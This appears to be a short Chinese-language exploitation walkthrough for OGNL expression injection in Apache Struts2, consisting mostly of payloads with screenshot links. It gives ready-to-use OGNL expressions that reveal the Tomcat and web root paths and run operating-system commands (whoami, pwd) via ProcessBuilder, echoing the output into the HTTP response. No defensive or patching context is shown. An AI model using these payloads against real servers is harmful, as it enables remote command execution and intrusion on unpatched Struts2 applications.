   

  

  

  

漏洞利用

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibcy5a7mPgEnb8lib3dcs5v5U2FRzahUPQhTicCvfTHpChzl3AS7QlDOz19nalYFgicBIPTX0oLIB6Xg/640?wx_fmt=png)

点击 submit 后 ognl 表达式会解析执行 返回 2

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibcy5a7mPgEnb8lib3dcs5v5j7reaUn0DUM1r2STP73xterGSfymmPH1E3730l7zu8qnXVclnzyG8Q/640?wx_fmt=png)

获取 tomcat 路径

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibcy5a7mPgEnb8lib3dcs5v56iafcg03hPGaDa66Qrk39iajoTUzfWdUlstVt2AV80nuPZnzh65G0Fiag/640?wx_fmt=png)

获取 web 路径

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibcy5a7mPgEnb8lib3dcs5v5b48NziaYrzEIapvWVp053FEtdwiaZ0pHp8fMG5sqiauicMxs87DylD1gzg/640?wx_fmt=png)

命令执行

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibcy5a7mPgEnb8lib3dcs5v57z1NZQvxQiaJPYtmma1ZzLtHw0yKnUajbadR57g5vg6qkVSRRTToYBA/640?wx_fmt=png)

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibcy5a7mPgEnb8lib3dcs5v54tIfqLufeGnTvs1tKcyHNdiaiaYTkP0hSKJBM5oG0yc0YxicDIv51cglg/640?wx_fmt=png)

  

  

  

  

OGNL 表达式
